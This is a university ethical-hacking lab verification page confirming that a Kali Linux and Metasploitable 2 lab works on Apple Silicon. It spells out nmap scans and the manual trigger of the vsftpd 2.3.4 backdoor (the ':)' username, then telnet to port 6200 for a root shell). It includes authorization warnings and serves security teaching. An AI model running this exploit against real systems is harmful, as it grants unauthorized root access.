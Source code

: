 ```yaml
---
layout: default
title: Kali to Metasploitable 2 Verification
parent: Lab Verifications
nav_order: 1
permalink: /docs/lab-verifications/kali-metasploitable
---
```


# Metasploitable 2 Vulnerability Assessment and Exploitation 
## Detroit Mercy Ethical Hacking Course Assignment 9 Lab Verification for Apple Silicon Virtualizatized OSs

{% include vm-status.html 
   title="Lab Verification: Metasploitable 2 Vulnerability Assessment"
   status="FINALIZED"
   architecture="UTM on Apple Silicon"
   updated="May 2025"
   time="30 minutes"
   difficulty="Intermediate"
   compatibility="UTM 4.0+" %}

This verification lab confirms that our setup guides for Kali Linux and Metasploitable 2 on Apple Silicon Macs result in a fully functional penetration testing environment. We will follow the standard student workflow for completing this assignment to determine assignment compatibility with Apple Silicon Virtualized Machines.

{: .warning }
> **Warning:** The techniques demonstrated in this lab should only be used on systems you have permission to test. Metasploitable 2 is an intentionally vulnerable system designed for security training.

## Prerequisites

- Kali Linux VM installed according to our [Kali Linux guide]({{ site.baseurl }}/docs/kali-linux.html)
- Metasploitable 2 VM installed according to our [Metasploitable 2 guide]({{ site.baseurl }}/docs/metasploitable.html)
- Both VMs configured to use the same network mode in UTM ("Host Only" recommended)

## Lab Workflow Overview

This lab follows the assignment structure for vulnerability assessment and exploitation:

1. VSFTPD Vulnerability Assessment: Using Nmap to identify and verify the vulnerability
2. Manual Exploitation: Exploiting the backdoor manually with telnet
3. Metasploit Exploitation: Using the Metasploit Framework to automate the exploitation

## Task 1: VSFTPD Vulnerability Assessment

{% include step-progress.html
steps="VSFTPD Vulnerability Assessment,Manual Exploitation,Conclusion"
current=1 %}

To start this assignment, we must start both our Kali Linux and Metasploitable 2 machines. Prior to starting, please `make sure` your `Network Settings` for `BOTH` Virtual Machines are set to `Host-Only`.

In `Metasploitable 2` log in with the credentials

Username: `msfadmin`
Password: `msfadmin`

Then run the following command:
```bash
ifconfig
```
Take note of the `inet addr` listed in the ouput, as this is the IP address of your Metasploitable 2 Virtual Machine.

<div class="image-container">
     <a href="/UDMCyberSecurity-Labs-MacBookCompatibility/assets/images/lab-verification/LV-MS1.png" target="_blank">
       <img src="/UDMCyberSecurity-Labs-MacBookCompatibility/assets/images/lab-verification/LV-MS1.png" alt="Metasploitable 2 IP Address" class="clickable-image">
     </a>
</div>

In `Kali Linux`, you may now perform an initial scan of the target using `NMAP`:
```bash
sudo nmap -sV [Metasploitable IP]
```

The results should show vsftpd 2.3.4 running on port 21:

<div class="image-container">
     <a href="/UDMCyberSecurity-Labs-MacBookCompatibility/assets/images/lab-verification/LV-MS2.png" target="_blank">
       <img src="/UDMCyberSecurity-Labs-MacBookCompatibility/assets/images/lab-verification/LV-MS2.png" alt="Initial Nmap Service Scan" class="clickable-image">
     </a>
</div>

Next, lets use a specific `NMAP` script to test for a VSFTPD backdoor:
```bash
sudo nmap --script ftp-vsftpd-backdoor -p 21 [Metasploitable IP]
```

The results should show us that the target is `vulnerable` to this backdoor

<div class="image-container">
     <a href="/UDMCyberSecurity-Labs-MacBookCompatibility/assets/images/lab-verification/LV-MS3.png" target="_blank">
       <img src="/UDMCyberSecurity-Labs-MacBookCompatibility/assets/images/lab-verification/LV-MS3.png" alt="Nmap Scanning for VSFTPD Backdoor" class="clickable-image">
     </a>
</div>

## Task 2: Manual Exploitation of VSFTPD 2.3.4

{% include step-progress.html 
   steps="VSFTPD Vulnerability Assessment,Manual Exploitation,Conclusion" 
   current=2 %}
   
We will now move on to exploiting the VSFTPD 2.3.4 backdoor manually:

On Kali, connect to the `FTP Server` using `Telnet`:
```bash
telnet [Metasploitable IP] 21
```

At the `FTP` Login Prompt, enter the following:
```
USER user:)
PASS pass
```

Note: The `:)` is what generally triggers the backdoor

The FTP connection should close with a message `Connection closed by foreign host.` which indicates that the backdoor has successfully activated!

<div class="image-container">
     <a href="/UDMCyberSecurity-Labs-MacBookCompatibility/assets/images/lab-verification/LV-MS4.png" target="_blank">
       <img src="/UDMCyberSecurity-Labs-MacBookCompatibility/assets/images/lab-verification/LV-MS4.png" alt="Triggering VSFTPD Backdoor" class="clickable-image">
     </a>
</div>

Run a quick scan to verify that port 6200 is now open:
```bash
sudo nmap -p 6200 [Metasploitable 2 IP]
```

Connect to the backdoor shell on port 6200:
```bash
telnet [Metasploitable 2 IP] 6200
```

If successful, you should now have a command shell with root privileges. Verify with:
```bash
id;
whoami;
```
The output should show that you have `Root Privileges`

<div class="image-container">
     <a href="/UDMCyberSecurity-Labs-MacBookCompatibility/assets/images/lab-verification/LV-MS5.png" target="_blank">
       <img src="/UDMCyberSecurity-Labs-MacBookCompatibility/assets/images/lab-verification/LV-MS5.png" alt="Shell Access via VSFTPD Backdoor" class="clickable-image">
     </a>
</div>

## Conclusion

{% include step-progress.html
steps="VSFTPD Vulnerability Assessment,Manual Exploitation,Conclusion"
current=3 %}

This documentation confirms that labs involving Kali Linux and Metasploitable 2 communication can be completed on Apple Silicon devices.

{: .warning }
> **Remember**: The techniques demonstrated in this lab are meant for educational purposes only. Always obtain proper authorization before performing security testing on any system.

